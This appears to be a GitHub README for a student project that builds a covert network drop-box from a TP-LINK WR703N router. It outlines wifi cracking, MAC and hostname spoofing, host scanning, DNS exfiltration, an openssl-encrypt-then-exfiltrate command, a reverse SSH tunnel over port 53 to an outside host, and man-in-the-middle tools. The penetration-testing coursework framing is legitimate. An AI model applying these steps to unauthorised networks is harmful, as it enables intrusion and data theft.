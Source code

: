 kolache
=======

Description
----
Create open source wifi-pineapple with the TP-LINK TL-WR703N

Installation/Build Instructions
----

Additional Info and Links
----
applications needed on router for dns exfil:

[dig] (https://hackucf.org/blog/hack-all-the-things-exfiltrating-data-via-dns-requests/)

[xxd] (http://jontai.me/blog/2011/11/monitoring-dns-queries-with-tcpdump/)


1.) External drive will be encrypted. 

> http://oneitguy.com/blog/encrypted-remote-backup-openwrt

> https://dev.openwrt.org/ticket/10787

> http://gui-at.blogspot.com/2010/02/disk-encryption-in-openwrt.html

> http://sjoosten.nl/2013/06/luks-usb-stick.html

2.) Console into the router via Ethernet before 'drop off'.

2.1) Mount the SD card via SSH with encryption password. 

3.) Run a script that changes the device host name and mac address to something like an apple iphone/ipad or samsung android device. 

3.1) Set up the device for monitoring in a given number minutes.

4.) The WR-703N will scans for available wifi networks. It will find unencrypted wifi or WEP and crack them.
  
5.) Once on the target network, does an arp scan / nmap of hosts and other 'fun things' (Navy).

6.) The WR-703N will find its way to internet.

7.) The WR-703N will exfil some data. All data should be encrypted with openssl before exfiltration.

> tar -P -zcf - $dirname | openssl aes-256-cbc -out $dirname.tar.gz -k 1234

(tar/gzip everything in a given directory. AES-128 encrpt file. set the password to the file as "1234")


8.) The WR-703N will open a reverse SSH shell into the target network. 
> ssh -R 53:localhost:22 sourceuser@public ip

> tunnel through port 53 (because it it is normally unblocked)

> http://www.howtoforge.com/reverse-ssh-tunneling

9.) Lastly, win... (Navy/Russ) Think man-in-the-middle attacks. dsniff, sslstrip, etc.



Class Requirement:
----
>"Create a remotely C2ed attack pivot box (assume no inbound connections to the device via the targets network), in the smallest form factor possible, including common open source tools, and demonstrate at least 3 TTPs this device could provide"

>Bonus points for operator created tools!

>Narrative for requirement:

>A penetration tester gets access to an in scope building during a security audit.  They place this box inside the target network (wifi or hardline), and then leave.  They are then able to contact the box from their corporate office, allowing them to pivot into their clients network and conduct security testing without being hindered by the customers boundary protections.  

